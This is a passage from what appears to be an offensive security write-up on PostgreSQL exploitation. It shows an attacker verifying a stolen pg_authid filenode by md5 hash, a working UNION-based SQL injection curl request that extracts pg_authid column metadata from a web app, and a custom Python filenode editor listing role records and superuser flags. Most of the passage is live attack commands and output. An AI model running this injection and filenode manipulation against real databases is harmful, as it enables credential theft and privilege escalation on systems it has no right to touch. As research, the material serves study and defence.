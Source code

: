 </PRE>
```console
=== on the attacker server ===
$ md5sum pg_authid_filenode
4c9514c6fb515907b75b8ac04b00f923  pg_authid_filenode

=== on the target server ===
postgres@ubuntu-virtual-machine:~$ md5sum /var/lib/postgresql/13/main/global/1260
4c9514c6fb515907b75b8ac04b00f923  /var/lib/postgresql/13/main/global/1260
```
<PRE>


---[ 3.3 - Extracting table metadata

One last step before parsing the downloaded Filenode -- we must get its
metadata from the server via the following SQLi query:

</PRE>
```console
$ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode \
"id=-1 UNION SELECT 1337,STRING_AGG(CONCAT_WS(',',attname,typname,attlen,attalign),';') FROM pg_attribute JOIN pg_type ON pg_attribute.atttypid = pg_type.oid JOIN pg_class ON pg_attribute.attrelid = pg_class.oid WHERE pg_class.relname = 'pg_authid'"
[
    {"id":1337,"text":"tableoid,oid,4,i;cmax,cid,4,i;xmax,xid,4,i;cmin,cid,4,i;xmin,xid,4,i;ctid,tid,6,s;oid,oid,4,i;rolname,name,64,c;rolsuper,bool,1,c;rolinherit,bool,1,c;rolcreaterole,bool,1,c;rolcreatedb,bool,1,c;rolcanlogin,bool,1,c;rolreplication,bool,1,c;rolbypassrls,bool,1,c;rolconnlimit,int4,4,i;rolpassword,text,-1,i;rolvaliduntil,timestamptz,8,d"}
]
```
<PRE>


We should now be able to use our in-house Python3 Filenode editor to list
the data and confirm it is intact. The output for the "rolname" field will
be a bit ugly, because for some reason this field is stored in a 64-byte
fixed-length string padded with null bytes, instead of the common varchar
type:

</PRE>
```console
$ python3 postgresql_filenode_editor.py \
-f ./pg_authid_filenode \
-m list \
--datatype-csv "tableoid,oid,4,i;cmax,cid,4,i;xmax,xid,4,i;cmin,cid,4,i;xmin,xid,4,i;ctid,tid,6,s;oid,oid,4,i;rolname,name,64,c;rolsuper,bool,1,c;rolinherit,bool,1,c;rolcreaterole,bool,1,c;rolcreatedb,bool,1,c;rolcanlogin,bool,1,c;rolreplication,bool,1,c;rolbypassrls,bool,1,c;rolconnlimit,int4,4,i;rolpassword,text,-1,i;rolvaliduntil,timestamptz,8,d"

 [+] Page 0:
--------- item no. 0 ---------
oid           : 10
rolname       : b'postgres\x00...'
rolsuper      : 1
rolinherit    : 1
rolcreaterole : 1
rolcreatedb   : 1
rolcanlogin   : 1
rolreplication: 1
rolbypassrls  : 1
rolconnlimit  : -1
rolpassword   : None

--------- item no. 1 ---------
oid           : 3373
rolname       : b'pg_monitor\x00...'
rolsuper      : 0
```